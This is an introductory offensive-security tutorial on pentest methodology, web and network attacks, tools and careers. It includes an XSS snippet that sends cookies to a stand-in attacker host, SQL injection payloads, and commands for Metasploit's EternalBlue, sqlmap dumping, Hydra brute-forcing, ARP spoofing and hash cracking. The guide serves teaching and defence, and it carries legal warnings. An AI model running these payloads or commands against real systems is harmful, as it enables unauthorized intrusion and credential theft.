







# Offensive Security Introduction 🛡️

!!! abstract "What You'll Learn"
    - ✅ What Offensive Security is and why it matters
    - ✅ Core mindset of an attacker (think like a hacker)
    - ✅ Types of hackers, penetration testing & ethical hacking
    - ✅ The full penetration testing methodology (step-by-step)
    - ✅ Key attack categories with real-world examples
    - ✅ Common tools used by security professionals
    - ✅ Career paths, certifications & where to practice legally

---

## 📖 Introduction

**Offensive Security** is the practice of proactively attacking systems, networks, and applications — with permission — to find weaknesses before real attackers do.

!!! tip "Think of it this way"
    A locksmith who breaks into your house (with your permission) to show you your lock is weak is doing **offensive security**. They find the problem so you can fix it before a real burglar shows up. 🔐

!!! info "Defensive vs Offensive Security"
    - **Defensive Security** = Building walls, firewalls, monitoring (the guards 🏰)
    - **Offensive Security** = Attacking your own defenses to test them (the testers 🗡️)
    Both sides work **together** — you cannot defend what you haven't tried to break.

!!! warning "Legal & Ethical Notice"
    Everything in this guide is for **educational purposes only**. Hacking systems without **explicit written permission** is illegal in most countries and can result in prison time. Always hack ethically and legally.

---



---

## 🎭 Types of Hackers

Not all hackers are criminals. The term "hacker" simply means someone who deeply understands a system and finds creative ways to use or break it.

| Hat Color | Who They Are | Legal? | Intent |
|-----------|-------------|--------|--------|
| 🟢 **White Hat** | Ethical hackers, pentesters, security researchers | ✅ Yes | Find and fix vulnerabilities |
| ⚫ **Black Hat** | Cybercriminals, malware authors | ❌ No | Steal, damage, or exploit |
| 🌫️ **Grey Hat** | Hack without permission but report findings | ⚠️ Murky | Curiosity, sometimes reward |
| 🔵 **Blue Hat** | External consultants hired before a product launch | ✅ Yes | Pre-release vulnerability testing |
| 🔴 **Red Hat** | Vigilante hackers who attack black hats | ❌ Illegal | "Robin Hood" of hacking |

!!! info "Real-World Example"
    Companies like Google, Facebook, and Microsoft run **Bug Bounty programs** where they pay white hat hackers to find vulnerabilities. Google has paid millions of dollars to researchers who responsibly disclosed bugs.

---

## 🧠 The Attacker's Mindset

The most important skill in offensive security isn't knowing tools — it's **thinking like an attacker**.

!!! tip "The Core Question"
    Always ask: *"How can this be misused?"*
    Every feature, every input field, every API endpoint is a potential attack surface.

### The CIA Triad (What Attackers Target)



| Goal | What It Means | Attack Example |
|------|--------------|----------------|
| 🔒 **Confidentiality** | Keep data private | Stealing passwords or credit cards |
| ✏️ **Integrity** | Keep data unmodified | Changing a bank balance in a database |
| ⚡ **Availability** | Keep services running | Taking down a website with a DDoS attack |

---

## 🗺️ Penetration Testing Methodology

Penetration testing follows a structured process. Skipping steps leads to missed vulnerabilities.



---

### 1️⃣ Planning & Scoping

Before touching anything, you define the **rules of engagement**.

!!! info "What Gets Defined"
    - What systems are **in scope** (allowed to test)?
    - What systems are **out of scope** (hands off)?
    - What types of attacks are allowed?
    - What's the timeline?
    - Who is the point of contact if something breaks?

```
📄 Legal Document: Rules of Engagement (ROE)
┌─────────────────────────────────────────┐
│  Target: 192.168.1.0/24                 │
│  Allowed: Network scan, web app testing │
│  Not Allowed: DoS attacks, physical     │
│  Start: 01 Jan 2025  End: 07 Jan 2025   │
│  Emergency Contact: security@corp.com   │
└─────────────────────────────────────────┘
```

!!! warning "Never Skip This Step"
    Without written authorization, **everything you do is illegal** — even if you meant well. Always get written permission first.

---

### 2️⃣ Reconnaissance (Information Gathering)

Collect as much information about the target as possible **without touching their systems**.

=== "Passive Recon (No direct contact)"
    ```
    Goal: Learn about the target from public sources only

    Sources:
    - Google searches (Google Dorking)
    - WHOIS records (who owns a domain)
    - LinkedIn / social media (employee names, roles)
    - Shodan.io (internet-connected devices)
    - DNS records
    - Job postings (reveal tech stack)
    - GitHub repos (leaked credentials or code)
    ```

=== "Active Recon (Direct contact)"
    ```
    Goal: Probe the target's infrastructure directly

    Techniques:
    - Ping sweeps (is the host alive?)
    - DNS enumeration (find subdomains)
    - Port scanning (what services are running?)
    - Banner grabbing (what software version?)

    ⚠️ This may appear in the target's logs!
    ```

=== "OSINT Tools"
    ```
    theHarvester  → Email, domain, host discovery
    Maltego       → Visual link analysis of relationships
    Shodan        → Search engine for internet devices
    recon-ng      → Web-based OSINT framework
    SpiderFoot    → Automated OSINT collection
    Google Dorks  → Advanced Google search operators
    ```

!!! tip "Real-World Example: Google Dorking"
    ```
    site:target.com filetype:pdf        → Find PDF files
    site:target.com inurl:admin         → Find admin pages
    site:target.com "index of /"        → Find open directories
    "password" filetype:txt site:target.com → Find exposed passwords
    ```

---

### 3️⃣ Scanning & Enumeration

Now you actively probe the target to map out the attack surface.

=== "Port Scanning (Nmap)"
    ```bash
    # Basic scan — find open ports
    nmap 192.168.1.1

    # Scan all 65535 ports
    nmap -p- 192.168.1.1

    # Detect OS and service versions
    nmap -sV -O 192.168.1.1

    # Run default vulnerability scripts
    nmap -sC -sV 192.168.1.1

    # Stealth scan (less detectable)
    nmap -sS 192.168.1.1
    ```

=== "Web Application Scanning"
    ```bash
    # Nikto — web vulnerability scanner
    nikto -h http://target.com

    # Gobuster — directory & file brute-forcing
    gobuster dir -u http://target.com -w wordlist.txt

    # WhatWeb — identify technologies used
    whatweb http://target.com
    ```

=== "Understanding Nmap Output"
    ```
    PORT     STATE  SERVICE  VERSION
    22/tcp   open   ssh      OpenSSH 7.4
    80/tcp   open   http     Apache 2.4.6
    443/tcp  open   https    Apache 2.4.6
    3306/tcp closed mysql

    ↑ Port   ↑ State  ↑ Service  ↑ Version (attack surface!)
    ```

!!! info "Why Versions Matter"
    If a target is running **Apache 2.4.6**, you can search for known vulnerabilities in that exact version on sites like **CVE Mitre** or **Exploit-DB**. Old software = more known vulnerabilities.

---

### 4️⃣ Exploitation

This is where you attempt to take advantage of a discovered vulnerability to gain access.

!!! warning "Important"
    Exploitation is only done **after confirming you have permission** for the specific target and vulnerability type in your scope.

=== "Manual Exploitation"
    ```
    Finding a SQL injection manually:

    Normal URL:  https://site.com/user?id=1
    Attack URL:  https://site.com/user?id=1' OR '1'='1

    If the page behaves differently → SQL injection exists!
    An attacker can then:
    - Dump the entire database
    - Bypass login pages
    - Read server files
    ```

=== "Metasploit Framework"
    ```bash
    # Start Metasploit
    msfconsole

    # Search for an exploit
    search eternalblue

    # Use an exploit module
    use exploit/windows/smb/ms17_010_eternalblue

    # Set the target IP
    set RHOSTS 192.168.1.100

    # Set your listener IP
    set LHOST 192.168.1.50

    # Run the exploit
    run
    ```

=== "Common Vulnerability Types"
    ```
    Buffer Overflow   → Overflow memory to execute malicious code
    SQL Injection     → Insert SQL commands into database queries
    Command Injection → Execute OS commands through a web app
    XSS               → Inject JavaScript into a web page
    File Upload       → Upload malicious scripts to a server
    Broken Auth       → Bypass or brute-force authentication
    ```

---

### 5️⃣ Post-Exploitation

After gaining access, a real attacker (and a pentester) explores what they can do **from the inside**.



| Technique | What It Means | Example |
|-----------|--------------|---------|
| **Privilege Escalation** | Gain higher permissions | From normal user → Administrator |
| **Lateral Movement** | Move to other systems | Compromise one PC → Access the server |
| **Persistence** | Maintain access | Install a backdoor that survives reboots |
| **Data Exfiltration** | Extract sensitive data | Copy database to external server |
| **Covering Tracks** | Hide evidence | Delete log files |

!!! info "Pentester vs Real Attacker"
    A pentester **stops at proof** — they demonstrate they *could* exfiltrate data (e.g., screenshot of a sensitive file) without actually stealing it. A real attacker would take everything.

---

### 6️⃣ Reporting

The most critical deliverable of any penetration test. Without a clear report, the work has no value.

```
📋 Penetration Test Report Structure
┌──────────────────────────────────────────────┐
│  1. Executive Summary (for non-technical)    │
│     → Overall risk level: CRITICAL / HIGH    │
│     → Key findings in plain English          │
│                                              │
│  2. Technical Summary                        │
│     → Methodology used                      │
│     → Scope and timeline                    │
│                                              │
│  3. Findings (for each vulnerability):       │
│     → Title & CVE reference                 │
│     → Severity: Critical/High/Medium/Low    │
│     → Description of the issue             │
│     → Evidence (screenshots, logs)          │
│     → Business Impact                       │
│     → Remediation steps                     │
│                                              │
│  4. Appendix                                 │
│     → Full tool output, raw data            │
└──────────────────────────────────────────────┘
```

!!! tip "Severity Ratings (CVSS Score)"
    | Severity | CVSS Score | Meaning |
    |----------|-----------|---------|
    | 🔴 Critical | 9.0 – 10.0 | Immediate action required |
    | 🟠 High | 7.0 – 8.9 | Fix within days |
    | 🟡 Medium | 4.0 – 6.9 | Fix within weeks |
    | 🟢 Low | 0.1 – 3.9 | Fix when possible |
    | ⚪ Info | 0.0 | Informational, no direct risk |

---

## 🌐 Web Application Attacks

Web applications are the most common attack surface. Here are the most critical vulnerabilities.

### OWASP Top 10

The **OWASP Top 10** is the industry-standard list of the most dangerous web vulnerabilities.



---

### 💉 SQL Injection (SQLi)

The attacker inserts malicious SQL code into an input field to manipulate the database.

!!! info "Real-Life Analogy"
    Imagine a form asking for your name. You write `'; DROP TABLE users; --` instead. If the server doesn't sanitize this, it may **delete the entire users table** from the database. 😱

=== "Basic SQL Injection"
    ```sql
    -- Normal login query:
    SELECT * FROM users WHERE username='alice' AND password='secret';

    -- Attacker enters username: admin'--
    -- The query becomes:
    SELECT * FROM users WHERE username='admin'--' AND password='anything';
    --                                               ↑ This part is commented out!
    -- Result: Logged in as admin without a password!
    ```

=== "SQLMap (Automated)"
    ```bash
    # Test a URL for SQL injection
    sqlmap -u "http://target.com/page?id=1"

    # Dump the entire database
    sqlmap -u "http://target.com/page?id=1" --dbs

    # Dump a specific table
    sqlmap -u "http://target.com/page?id=1" -D mydb -T users --dump
    ```

=== "Prevention"
    ```python
    # ❌ Vulnerable code
    query = "SELECT * FROM users WHERE name='" + user_input + "'"

    # ✅ Safe code — Parameterized Query
    query = "SELECT * FROM users WHERE name = ?"
    cursor.execute(query, (user_input,))

    # The database treats user_input as DATA, not SQL code
    ```

---

### 🔗 Cross-Site Scripting (XSS)

The attacker injects JavaScript into a web page that runs in **other users' browsers**.

!!! info "Real-Life Analogy"
    Imagine a comment section where you post: `<script>alert('hacked')</script>`. If the website doesn't sanitize it, every visitor who sees your comment will get a popup — or worse, have their **session cookies stolen**.

=== "Types of XSS"
    ```
    Reflected XSS   → Payload in the URL, affects only that request
                      Example: http://site.com/search?q=<script>...</script>

    Stored XSS      → Payload saved in database, affects all users
                      Example: Malicious comment on a blog

    DOM-based XSS   → JavaScript in the page itself reads attacker input
                      No server involved
    ```

=== "Cookie Stealing Example"
    ```javascript
    // Attacker injects this script:
    <script>
      fetch('https://attacker.com/steal?c=' + document.cookie)
    </script>

    // Victim's browser sends their session cookie to the attacker
    // Attacker can now log in as the victim!
    ```

=== "Prevention"
    ```html
    <!-- ❌ Vulnerable — directly inserting user input into HTML -->
    <p>Hello, {{ username }}</p>

    <!-- ✅ Safe — HTML encoding special characters -->
    <p>Hello, {{ username | escape }}</p>

    <!-- & becomes &amp;   < becomes &lt;   > becomes &gt; -->
    <!-- This treats user input as TEXT, not HTML -->
    ```

---

### 🔓 Broken Authentication

Flaws in login systems that let attackers bypass authentication or hijack accounts.

=== "Common Issues"
    ```
    Weak Passwords       → "password123" or "admin/admin"
    No Account Lockout   → Brute-force 1000 passwords without being blocked
    Predictable Tokens   → Session IDs that are sequential (1001, 1002...)
    Exposed Credentials  → Passwords in URLs or logs
    No MFA               → Single point of failure
    ```

=== "Brute Force Attack"
    ```bash
    # Hydra — brute force login page
    hydra -l admin -P /usr/share/wordlists/rockyou.txt \
          http-post-form "//login:username=^USER^&password=^PASS^:Invalid"

    # This tries thousands of passwords automatically
    ```

=== "Prevention"
    ```
    ✅ Use Multi-Factor Authentication (MFA)
    ✅ Lock accounts after 5 failed attempts
    ✅ Use strong, hashed passwords (bcrypt/argon2)
    ✅ Expire session tokens after logout
    ✅ Use HTTPS everywhere
    ```

---

## 🌐 Network Attacks

### 🕵️ Man-in-the-Middle (MITM)

The attacker secretly **intercepts communication** between two parties who think they're talking directly to each other.

```
Without Attack:
[You] ←——————————→ [Bank Website]

With MITM Attack:
[You] ←——→ [Attacker] ←——→ [Bank Website]
              ↑
        Reads everything!
        (passwords, card numbers)
```

=== "ARP Spoofing"
    ```bash
    # Attacker poisons ARP cache to intercept traffic
    arpspoof -i eth0 -t 192.168.1.1 192.168.1.100

    # Now all traffic from .100 goes through the attacker first
    ```

=== "Prevention"
    ```
    ✅ Always use HTTPS (look for the padlock 🔒)
    ✅ Use a VPN on public Wi-Fi
    ✅ Enable HSTS on websites
    ✅ Use certificate pinning in apps
    ✅ Avoid open Wi-Fi networks
    ```

---

### 💥 Denial of Service (DoS / DDoS)

Overwhelming a service with traffic or requests until it **crashes or becomes unavailable**.

!!! info "Real-Life Analogy"
    Imagine a store with one cashier. If 10,000 people walk in at the same time asking questions but never buying anything, the real customers can't get service. The store is effectively **shut down**.

=== "Types of DoS"
    ```
    Volume-based   → Flood with traffic (UDP floods, ICMP floods)
    Protocol-based → Exploit protocol weaknesses (SYN floods)
    Application    → Exhaust server resources (HTTP floods, Slowloris)
    Distributed    → Attack from thousands of infected computers (botnet)
    ```

=== "Amplification Attack"
    ```
    1. Attacker sends small request (100 bytes)
       → to misconfigured DNS server
       → spoofing victim's IP as source

    2. DNS server sends LARGE response (3000 bytes)
       → directly to victim

    3. Amplification = 30x attack traffic
       with minimal effort!
    ```

---

### 🔍 Password Attacks

=== "Attack Types"
    ```
    Brute Force       → Try every possible combination (slow but thorough)
    Dictionary Attack → Try words from a wordlist (fast, common passwords)
    Credential Stuff  → Use leaked username/password pairs from data breaches
    Pass-the-Hash     → Use the password HASH directly without cracking it
    Rainbow Table     → Pre-computed hash lookup table
    ```

=== "Password Cracking Tools"
    ```bash
    # Hashcat — GPU-accelerated password cracker
    hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

    # John the Ripper
    john --wordlist=rockyou.txt hashes.txt

    # Crackstation.net — online rainbow table lookup
    ```

=== "Password Strength"
    ```
    ❌ Weak:    password123     → Cracked in < 1 second
    ❌ Weak:    P@ssw0rd        → Cracked in < 1 second (common pattern)
    ✅ Better:  correct-horse-battery-staple  → Years to crack
    ✅ Best:    Random + long + unique per site → Use a password manager
    ```

---

## 👤 Social Engineering

The art of **manipulating people** to give up confidential information or perform actions. Often the easiest way in — no technical skill required.

!!! info "Famous Quote"
    *"The weakest link in any security system is the human."* — Kevin Mitnick, one of the world's most famous hackers.

=== "Phishing"
    ```
    Type: Mass email impersonating a trusted entity

    Example:
    From: security@paypa1.com  ← Notice the '1' instead of 'l'
    Subject: "Your account has been suspended"
    Body: "Click here to verify: http://paypa1-verify.com"

    Goal: Steal credentials or install malware

    Variants:
    - Spear Phishing  → Targeted at specific individual
    - Whaling         → Targeted at executives (CEO, CFO)
    - Smishing        → Phishing via SMS
    - Vishing         → Phishing via phone call
    ```

=== "Pretexting"
    ```
    The attacker creates a fake scenario (pretext) to extract info

    Example:
    Attacker calls IT Help Desk:
    "Hi, this is David from the finance team.
     I'm in a meeting with the CEO and I'm locked out.
     Can you reset my password quickly?"

    Defense: Verify identity with out-of-band authentication
    (call back on registered phone number)
    ```

=== "Baiting & Tailgating"
    ```
    Baiting:
    → Drop USB drives in a company parking lot
    → Employee picks it up, plugs it in "to find the owner"
    → Malware installs automatically

    Tailgating (Physical):
    → Attacker follows an employee through a secure door
    → "Can you hold that? My hands are full."
    → Now inside the building without a badge scan
    ```

!!! warning "Prevention"
    Security awareness training is the **#1 defense** against social engineering. Technology cannot stop a human from being manipulated — education can.

---

## 🛠️ Essential Offensive Security Tools

### Information Gathering

| Tool | Purpose | Example Use |
|------|---------|-------------|
| **Nmap** | Port scanner & network mapper | `nmap -sV target.com` |
| **theHarvester** | Email & domain recon | `theHarvester -d target.com -b google` |
| **Shodan** | Internet-connected device search engine | Search for exposed cameras/routers |
| **Maltego** | Visual OSINT & link analysis | Map relationships between entities |
| **Recon-ng** | Automated web recon | Modular OSINT framework |

### Vulnerability Scanning

| Tool | Purpose | Example Use |
|------|---------|-------------|
| **Nessus** | Enterprise vulnerability scanner | Scan network for CVEs |
| **OpenVAS** | Free vulnerability scanner | Scan internal network |
| **Nikto** | Web server scanner | `nikto -h http://target.com` |
| **WPScan** | WordPress vulnerability scanner | `wpscan --url target.com` |

### Exploitation

| Tool | Purpose | Example Use |
|------|---------|-------------|
| **Metasploit** | Exploitation framework | Use pre-built exploits |
| **SQLMap** | Automated SQL injection | `sqlmap -u "url?id=1"` |
| **Burp Suite** | Web app testing proxy | Intercept & modify HTTP requests |
| **Hydra** | Password brute-forcing | Brute-force login pages |
| **BeEF** | Browser exploitation framework | XSS-based browser control |

### Post-Exploitation

| Tool | Purpose | Example Use |
|------|---------|-------------|
| **Mimikatz** | Windows credential dumper | Extract password hashes from memory |
| **BloodHound** | Active Directory attack path mapping | Find paths to Domain Admin |
| **Empire** | Post-exploitation framework | PowerShell-based C2 |
| **Cobalt Strike** | Advanced red team C2 | Professional adversary simulation |
| **LinPEAS / WinPEAS** | Privilege escalation scripts | Find privesc vectors automatically |

!!! info "Kali Linux"
    **Kali Linux** is a Debian-based operating system built specifically for penetration testing. It comes pre-installed with 600+ security tools. It's the industry standard OS for offensive security professionals.

---

## 🔴 Red Teaming vs Penetration Testing

These terms are often confused but are significantly different.



| Aspect | Pen Test | Red Team |
|--------|----------|----------|
| **Goal** | Find all vulnerabilities | Simulate a real attacker achieving an objective |
| **Scope** | Defined (e.g., this web app) | Broad (entire organization) |
| **Duration** | Days to weeks | Weeks to months |
| **Team** | Usually 1-3 people | Red (attack), Blue (defend), Purple (together) |
| **Blue Team Aware?** | Usually yes | Usually **no** — that's the point |
| **Output** | Vulnerability list + fixes | Demonstrated attack path + gaps in detection |

---

## 📜 Legal Frameworks & Compliance

Understanding the legal landscape is essential for any offensive security professional.

=== "Laws to Know"
    ```
    🇺🇸 USA:
    - Computer Fraud and Abuse Act (CFAA) — main US cybercrime law
    - Digital Millennium Copyright Act (DMCA)

    🇬🇧 UK:
    - Computer Misuse Act 1990

    🇪🇺 Europe:
    - General Data Protection Regulation (GDPR)
    - Budapest Convention on Cybercrime

    🌍 General:
    - Unauthorized access = criminal offense in nearly every country
    ```

=== "Authorization Documents"
    ```
    📄 Penetration Test Agreement
    → Legal permission to perform the test
    → Defines scope, timeline, allowed techniques

    📄 Rules of Engagement (ROE)
    → Technical boundaries of the test

    📄 Non-Disclosure Agreement (NDA)
    → Protects client's sensitive findings

    📄 Statement of Work (SOW)
    → Deliverables, payment, timelines

    ⚠️ Never start without ALL documents signed!
    ```

=== "Bug Bounty Programs"
    ```
    Companies that pay for responsible disclosure:

    💰 Google  → Up to $31,337 per bug
    💰 Apple   → Up to $1,000,000 per bug
    💰 Facebook→ Up to $40,000 per bug
    💰 Microsoft → Up to $250,000 per bug

    Platforms:
    - HackerOne.com
    - Bugcrowd.com
    - Intigriti.com
    - YesWeHack.com
    ```

---

## 🎓 Career Paths & Certifications

### Career Roles



### Certification Roadmap

=== "Beginner Certifications"
    ```
    CompTIA Security+
    → Industry-standard entry cert
    → Covers general security concepts
    → Good starting point for any security role

    CompTIA PenTest+
    → Entry-level penetration testing cert
    → Less technical than OSCP

    eJPT (eLearnSecurity Junior Penetration Tester)
    → Practical, beginner-friendly
    → Great first hands-on cert
    ```

=== "Intermediate Certifications"
    ```
    CEH (Certified Ethical Hacker)
    → EC-Council's well-known cert
    → More theoretical, widely recognized by HR

    PNPT (Practical Network Penetration Tester)
    → TCM Security's practical cert
    → Real-world exam (no multiple choice)
    → Excellent value for money
    ```

=== "Advanced Certifications"
    ```
    OSCP (Offensive Security Certified Professional)
    → Industry gold standard
    → 24-hour hands-on exam: hack 3+ machines
    → Proves real practical skill

    OSED / OSEP / OSWE
    → Specialized OSCP-family certs
    → Exploit development, evasion, web expert

    CRTO (Certified Red Team Operator)
    → Cobalt Strike focused
    → Excellent red team cert

    CRTE / CRTP
    → Red Team and Active Directory focused
    ```

---

## 🧪 Where to Practice (Legally!)

!!! tip "The Golden Rule"
    **Never practice on systems you don't own or have permission to test.** Use these legal platforms instead.

=== "Online Labs (Beginner Friendly)"
    ```
    TryHackMe (tryhackme.com)
    → Browser-based, guided learning paths
    → Great for absolute beginners
    → Free + paid tiers

    HackTheBox (hackthebox.com)
    → More challenging, less guided
    → Active machines + retired write-ups
    → Free + VIP tier

    PicoCTF (picoctf.org)
    → CTF challenges designed for beginners
    → Made by Carnegie Mellon University
    → Completely free
    ```

=== "Capture The Flag (CTF)"
    ```
    What is CTF?
    → Competition where you solve security challenges
    → Find hidden "flags" (text strings) as proof
    → Categories: Web, Crypto, Forensics, Pwn, Reversing

    Popular CTF Platforms:
    - CTFtime.org   → Calendar of all CTF events
    - picoCTF       → Beginner CTFs
    - HackTheBox    → Machine-based CTFs
    - pwn.college   → Advanced binary exploitation

    Starting Point: Try "Web" and "Forensics" categories first!
    ```

=== "Vulnerable by Design Apps"
    ```
    DVWA (Damn Vulnerable Web Application)
    → PHP web app intentionally full of holes
    → Run locally, practice all OWASP Top 10
    → docker run -d dvwa/dvwa

    OWASP WebGoat
    → Java-based intentionally insecure app
    → Teaches fixes alongside vulnerabilities

    VulnHub (vulnhub.com)
    → Downloadable vulnerable VMs
    → Practice in your own environment
    → All beginner to advanced levels

    Metasploitable
    → Linux VM intentionally vulnerable
    → Perfect for practicing Metasploit
    ```

=== "Set Up a Home Lab"
    ```
    Hardware:
    → Old laptop or PC
    → Raspberry Pi (cheap!)
    → Cloud VM (AWS/GCP free tier)

    Software:
    → VirtualBox or VMware (free)
    → Kali Linux (attacker OS)
    → Metasploitable 2/3 (target OS)
    → Windows Server eval (target)

    Simple Setup:
    ┌──────────────────────────────┐
    │  Your Computer               │
    │  ┌──────────┐  ┌──────────┐  │
    │  │  Kali    │  │ Metaspl. │  │
    │  │  Linux   │→→│ oitable  │  │
    │  │ (Attacker│  │ (Target) │  │
    │  └──────────┘  └──────────┘  │
    │     VirtualBox / VMware       │
    └──────────────────────────────┘
    ```

---

## 📚 Learning Resources

### Books

| Book | Author | Level | Focus |
|------|--------|-------|-------|
| **The Web Application Hacker's Handbook** | Stuttard & Pinto | Beginner-Mid | Web App Testing |
| **Penetration Testing** | Georgia Weidman | Beginner | General Pentest |
| **Hacking: The Art of Exploitation** | Jon Erickson | Advanced | Low-level exploitation |
| **The Hacker Playbook 3** | Peter Kim | Intermediate | Red Teaming |
| **Red Team Development and Operations** | Joe Vest | Advanced | Red Team Operations |

### Online Courses & Communities

=== "Free Resources"
    ```
    TCM Security (YouTube)     → Practical hacking tutorials
    IppSec (YouTube)           → HackTheBox walkthroughs
    John Hammond (YouTube)     → CTF and malware analysis
    STÖK (YouTube)             → Bug bounty hunting
    LiveOverflow (YouTube)     → Low-level security & CTF

    OWASP.org                  → Web security documentation
    PortSwigger Web Academy    → Free web security labs (excellent!)
    Cybrary.it                 → Free security courses
    ```

=== "Paid Courses"
    ```
    TCM Security Academy       → Best value practical courses
    Offensive Security (OSCP)  → Gold standard training
    INE / eLearnSecurity       → Structured learning paths
    SANS Institute             → Enterprise-grade training
    ```

---

## ✅ Quick Reference Summary

| Concept | Description | Key Takeaway |
|---------|-------------|-------------|
| **Offensive Security** | Proactive attack-based security testing | You attack to defend |
